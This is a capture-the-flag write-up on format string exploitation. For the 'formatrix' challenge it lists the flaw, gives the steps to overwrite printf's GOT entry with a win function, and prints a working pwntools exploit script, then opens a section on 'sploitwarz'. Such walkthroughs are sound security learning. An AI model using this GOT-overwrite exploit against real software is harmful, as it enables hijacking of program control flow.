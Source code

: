 _List of vulnerabilities:_    
1. Format string vulnerability from the user's input

_Steps to exploit:_   
1. We have to overwrite functions in the GOT table and I used printf since it will not affect anything before in the win function
2. Find the format string address to the start of the use input which is 3
3. Write the win address to the address storing printf with the format string offset one byte at a time
3. I calculated it by hand and also tried to use the pwntools built-in function for it

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *

host = "127.0.0.1"
port = 7002

printf = 0x804b4bc
win = 0x080491f2

def send_ftm_payload(payload):
	print repr(payload)
	c.sendline(payload)

#c = remote(host, port)
c = process("../formatrix")
#c = gdb.debug("../formatrix")
c.recvlines(16)
'''
payload = p32(printf)
payload += p32(printf+1)
payload += p32(printf+2)
payload += p32(printf+3)
payload += "%226x"	# F2-16
payload += "%3$n"
payload += "%159x"	# 191-F2
payload += "%4$n"
payload += "%115x"	# 204-191
payload += "%5$n"
payload += "%260x"	# 308-204
payload += "%6$n"
'''
f = FmtStr(send_ftm_payload, offset=3)
f.write(printf, win)
f.execute_writes()

#print(payload)
#c.sendline(payload)

print c.recvall()
```
---
## **9. format-3 - sploitwarz**
_General overview of problems faced:_   
1. Have to figure how the player struct is ordered and what the attributes are
2. Have to find where the format string vulnerability is which is when you win the gamble and where the string is from which is the player's name
3. Have to find out what to overwrite which I chose the putchar function in the GOT as it will not affect any useful functions
4. Have to find the address storing the putchar function, I used the address of the player's name and the offset of it the the GOT to get putchar's function address